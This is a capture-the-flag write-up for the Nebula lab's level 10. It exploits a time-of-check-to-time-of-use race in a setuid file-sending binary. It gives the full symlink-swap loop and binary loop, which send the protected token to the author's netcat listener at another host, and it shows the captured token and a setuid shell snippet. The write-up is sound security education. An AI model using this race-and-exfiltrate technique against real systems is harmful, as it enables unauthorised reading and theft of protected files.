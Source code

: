 As the description has it, this program seems to read a file and send its contents to a user specified IP address on tcp/18211. I tested this by opening a netcat listener with `nc -lk 18211` and sending myself a file to see what comes out. Obviously, I was not able to send the token that was in the same directory as the `flag10` binary as I did not have read access to this.

The problem with this program through is the fact that it checks if the file can be read using `access()`, then only later opens it using `open()`. Using this method it may be possible to change out the file before it hits the `open()` method. Symlinks are the goto for this kind of problem as they can be easily swapped out by relinking a file as the program runs. It of course helps that the file to read can be user specified. There is actually an acronym for this kind of bug called [TOCTTOU](http://en.wikipedia.org/wiki/Time_of_check_to_time_of_use). The Wikipedia article describes almost exactly the same scenario as we have here.

My plan of attack was to create a race condition. I would create an infinite loop that relinks a file from something I can actually read back to the token file and vice versa. While this continuous relinking occurs, I would run the affected binary, hoping that we would catch a case where the link swaps out as hoped for sending the token contents to my netcat listener. To increase my chances of the race condition occurring, I put the `flag10` binary in its own loop as well.

So, to solve level10:

```bash
level10@nebula:/home/flag10$ while true; do ln -sf /var/tmp/shell.c /var/tmp/flag10-token; ln -sf /home/flag10/token /var/tmp/flag10-token; done &
[1] 14219

# the counties symlink swap is now happening between /var/tmp/shell.c which I can read and /home/flag10/token which I cant.

level10@nebula:/home/flag10$ while true; do ./flag10 /var/tmp/flag10-token 192.168.217.1; done
You don't have access to /var/tmp/flag10-token
You don't have access to /var/tmp/flag10-token
Connecting to 192.168.217.1:18211 .. Connected!
Sending file .. wrote file!
Connecting to 192.168.217.1:18211 .. Connected!
Sending file .. wrote file!
Connecting to 192.168.217.1:18211 .. Connected!
Sending file .. wrote file!
```

On my netcat listener I now had:

```bash
~ » nc -lk 18211
.oO Oo.
#include<stdio.h>

int main(void) {
    setresuid(geteuid(), geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}

.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
```
